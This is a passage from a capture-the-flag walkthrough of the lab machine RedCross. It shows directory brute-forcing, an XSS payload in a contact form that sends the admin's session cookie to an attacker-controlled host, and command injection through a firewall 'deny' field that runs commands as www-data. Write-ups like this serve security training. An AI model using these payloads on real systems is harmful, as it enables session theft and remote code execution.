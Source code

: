 ```sh
--- ~ » gobuster -w /usr/share/dirbuster/directory-list-2.3-small.txt -k 
-x pdf -u https://intra.redcross.htb/documentation/ 

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://intra.redcross.htb/documentation/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-small.txt
[+] Status codes : 301,302,307,200,204
[+] Extensions   : .pdf
=====================================================
/account-signup.pdf (Status: 200)
```

Doing what is beeing told will get you temporary credentials `guest:guest` which can be used to login to the application.

## Cookie stealing via XSS

Also you can steal admins _PHPSESSID_ cookie using the login pages' contact form.

Provide this as a email address `<script>new Image().src="http://10.10.14.8:8000/"+document.cookie;</script>`
and listen for the incoming cookie like so:

```sh
--- ~ » sudo python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.113 - - [13/Nov/2018 12:31:08] code 404, message File not found
10.10.10.113 - - [13/Nov/2018 12:31:08] "GET /PHPSESSID=usv2sr90b755kcu5obarkj6iv0;%20LANG=EN_US;%20SINCE=1542108659;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
```

Now you can impersonate the admin at https://admin.redcross.htb as the cookie scope says `domain=admin`.

# Initial Foothold - Get user.txt

On that page you will be able to create a user. This user can be used to log on via ssh to the box.

You will recognise that you are in a chroot jail and may not break out via ssh shell.
So later on you may discover that the deny function of the firewall module on the admin page is prone to a RCE vulnerability like so:

```sh
--- ~ » curl -k -X POST https://admin.redcross.htb/pages/actions.php --cookie phpsessid=6tactg18ilblkbdii1e6h7mep0 --data 'ip=10.10.13.54;id&action=deny'
DEBUG: All checks passed... Executing iptables
Network access restricted to 10.10.13.54
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)%
```
